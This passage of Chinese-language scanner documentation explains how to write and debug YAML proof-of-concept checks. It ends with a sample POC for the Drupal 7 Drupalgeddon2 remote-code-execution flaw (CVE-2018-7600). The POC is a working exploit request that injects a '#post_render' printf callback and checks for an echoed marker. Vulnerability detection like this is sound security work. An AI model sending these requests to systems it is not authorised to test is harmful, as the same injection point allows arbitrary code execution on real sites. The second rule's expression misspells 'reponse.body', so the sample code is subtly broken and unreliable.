 ## 一些细节上的说明

在编写expression表达式的时候，尤其要注意一个问题：yaml字符串的转义，与CEL表达式字符串里的转义。

yaml中，如果要编写一个字符串类型的值，可以使用引号进行包裹，如：

```yaml
name: "value"
```

但如果value中有反斜线，会在解析yaml的时候进行转义。那么如果expression表达式代码中也存在双引号或转义符，此时转义符就已经没有了，我们需要双重转义，这个时候编写的代码就非常不可读也不可维护。

所以，建议使用yaml中支持的[块样式（block style）](https://yaml.org/spec/1.2/spec.html#style/block/)来表示，如：

```
expression: |
  response.status == 200 && response.body.bcontains(b'\x01\x02\x03')
```

此时在YAML层面无需转义。

## 如何调试 poc

如果 poc 无法扫出期望的结果，可以按照以下思路调试

 - 确定 poc 语法正确，payload 正确。
 - 在配置文件 `http` 段中加入 `proxy: "http://proxy:port"`，比如设置 burpsuite 为代理，这样 poc 发送的请求可以在 burp 中看到，看是否是期望的样子。

## 一个示例POC：《Drupal7 drupalgeddon2 命令执行漏洞（CVE-2018-7600）》

这里给出一个样例POC：

```yaml
name: poc-yaml-drupal-drupalgeddon2-rce
set:
  r1: randomLowercase(4)
  r2: randomLowercase(4)
rules:
  - method: POST
    path: "/?q=user/password&name[%23post_render][]=printf&name[%23type]=markup&name[%23markup]={{r1}}%25%25{{r2}}"
    headers:
      Content-Type: application/x-www-form-urlencoded
    body: |
      form_id=user_pass&_triggering_element_name=name&_triggering_element_value=&opz=E-mail+new+Password
    search: |
      name="form_build_id"\s+value="(?P<build_id>.+?)"
    expression: |
      response.status==200
  - method: POST
    path: "/?q=file%2Fajax%2Fname%2F%23value%2F{{build_id}}"
    headers:
      Content-Type: application/x-www-form-urlencoded
    body: |
      form_build_id={{build_id}}
    expression: |
      reponse.body.bcontains(bytes(r1+'%'+r2))
detail:
  drupal_version: 7
  links:
    - https://github.com/dreadlocked/Drupalgeddon2
    - https://paper.seebug.org/567/
test:
  target: http://cve-2018-7600-7-x.vulnet:8000/
```
